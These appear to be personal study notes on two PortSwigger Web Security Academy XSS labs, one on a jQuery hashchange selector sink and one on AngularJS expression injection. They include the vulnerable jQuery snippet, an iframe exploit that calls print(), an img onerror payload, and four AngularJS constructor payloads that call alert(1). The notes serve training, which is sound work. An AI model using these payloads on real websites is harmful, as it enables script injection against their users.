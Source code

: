 # Note
- Even newer versions of jQuery can still be vulnerable via the $() selector sink, provided you have full control over its input from a source that doesn't require a # prefix.

# Lab: DOM XSS in jQuery selector sink using a hashchange event
- This lab contains a DOM-based cross-site scripting vulnerability on the home page. 
- It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.
- To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.
- This lab is crazy, to solve it read the javascript code and notice the location.hash function
```
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```                 
- Notice how h2 is being used
- Add #any-h2-on-the-page and see how it works
- Then if successful add ```<img src=x onerror=alert()>``` to the end 
- If it was successful solve the lab by 
```
<iframe src="https://0abe000b048c0ab480580da000be00ce.web-security-academy.net/#" onload="this.src+='Passwords%20<img%20src=1%20onerror=print()>'">

</iframe>
```
# DOM XSS in AngularJS
- If a framework like AngularJS is used, it may be possible to execute JavaScript without angle brackets or events. 
- When a site uses the ng-app attribute on an HTML element, it will be processed by AngularJS. 
- In this case, AngularJS will execute JavaScript inside double curly braces that can occur directly in HTML or inside attributes.

# Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
- This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS expression within the search functionality.
- AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). 
- When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces.
- This technique is useful when angle brackets are being encoded.
- To solve this lab, perform a cross-site scripting attack that executes an AngularJS expression and calls the alert function.
-Because I dont know anything about angularjs expression, I only serached for angularjs expression that can cause xss and I got this
```
1. {{constructor.constructor('alert(1)')()}}
2. {{ [].pop.constructor('alert(1)')() }}
3. {{ $on.constructor('alert(1)')()}}
4. {{ $eval.constructor('alert(1)')()}}
```
- and an alert was called, lab solved 

